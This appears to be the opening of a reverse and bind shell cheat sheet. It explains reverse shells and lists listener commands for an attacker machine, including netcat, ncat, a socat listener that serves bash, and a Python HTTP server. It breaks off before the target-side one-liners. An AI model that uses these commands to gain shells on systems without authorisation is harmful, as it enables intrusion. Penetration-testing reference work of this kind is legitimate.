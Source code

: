 # Reverse Shell & Bind Shell Cheat Sheet

This cheat sheet covers both reverse shells and bind shells, providing common commands and code snippets for various languages and tools.

---

## Reverse Shells

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port, and the target machine initiates the connection to the attacking machine. This is useful in scenarios where direct inbound connections to the target are blocked by firewalls or NAT.

### Listener (Attacker Machine)

Always set up a listener on your attacking machine first for reverse shells.

#### Netcat (Traditional)
```bash
nc -lvnp <PORT>
```
* `-l`: Listen mode
* `-v`: Verbose
* `-n`: Numeric-only IP addresses (no DNS lookups)
* `-p`: Specify port

#### Netcat (OpenBSD/Modern)
```bash
nc -lnvp <PORT>
```

#### Ncat (Nmap's Netcat)
```bash
ncat -lvnp <PORT>
```

#### Socat
```bash
socat TCP-LISTEN:<PORT>,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
```
* Provides a more stable and interactive shell.

#### Python Simple HTTP Server (for file transfer)
```bash
python3 -m http.server <PORT>
```

### Reverse Shells (Target Machine)

Execute these commands on the target machine to connect back to your listener. Replace `<ATTACKER_IP>` and `<PORT>` with your attacking machine's IP address and listener port.
